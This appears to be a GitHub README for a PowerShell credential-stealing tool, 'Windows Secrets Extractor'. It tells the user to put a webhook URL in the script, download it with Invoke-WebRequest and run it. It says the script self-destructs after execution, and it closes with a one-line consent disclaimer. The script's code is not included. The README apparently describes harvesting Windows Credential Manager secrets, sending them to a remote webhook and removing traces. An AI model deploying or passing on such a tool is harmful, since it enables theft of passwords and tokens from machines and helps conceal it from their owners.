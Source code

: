 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script :
2. ```Invoke-WebRequest <URL> -outfile $env:USERPROFILE\extractor.ps1```
3. Run the Script : ``cd $env:USERPROFILE;.\extractor.ps1``

Note: the script self-destructs after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
